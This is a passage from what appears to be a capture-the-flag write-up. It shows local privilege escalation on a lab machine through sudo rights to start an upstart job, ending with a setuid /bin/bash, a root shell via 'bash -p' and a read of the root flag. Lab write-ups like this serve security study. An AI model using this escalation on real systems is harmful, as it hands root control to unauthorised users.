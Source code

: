 ```
pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

Now we run the job with sudo permissions.

```
katie@spectra ~ $ sudo /sbin/initctl start test          
test start/running, process 7364
```

Looking at bash, it has now the suid bit set and we can easily drop into a rootshell and collect the flag.

```
katie@spectra ~ $ ls -la /bin/bash
-rwsr-sr-x 1 root root 551984 Dec 22  2020 /bin/bash
katie@spectra ~ $ /bin/bash -p
bash-4.3# wc -c /root/root.txt 
33 /root/root.txt
bash-4.3#
```
